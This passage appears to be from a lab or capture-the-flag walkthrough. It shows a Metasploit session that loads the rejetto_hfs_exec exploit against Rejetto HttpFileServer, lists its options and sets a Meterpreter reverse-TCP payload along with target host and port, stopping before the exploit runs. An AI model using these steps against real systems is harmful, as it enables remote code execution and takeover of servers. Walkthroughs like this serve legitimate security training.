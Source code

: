 Use `msfconsole -q` to load the `rejetto` module and load the variables.
{% capture code %}{% raw %}msf5 > search rejetto

Matching Modules

#  Name                                   Disclosure Date  Rank       Check  Description
-  ----                                   ---------------  ----       -----  -----------
0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


msf5 > use exploit/windows/http/rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
HTTPDELAY  10               no        Seconds to wait before terminating web server
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port (TCP)
SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
SRVPORT    8080             yes       The local port to listen on.
SSL        false            no        Negotiate SSL/TLS for outgoing connections
SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
TARGETURI  /                yes       The path of the web application
URIPATH                     no        The URI to use for this exploit (default is random)
VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST     <source-ip>     yes       The listen address (an interface may be specified)
LPORT     4444             yes       The listen port


Exploit target:

Id  Name
--  ----
0   Automatic


msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS <target-ip>
RHOSTS => <target-ip>

msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080{% endraw %}{% endcapture %} {% include code.html code=code %}
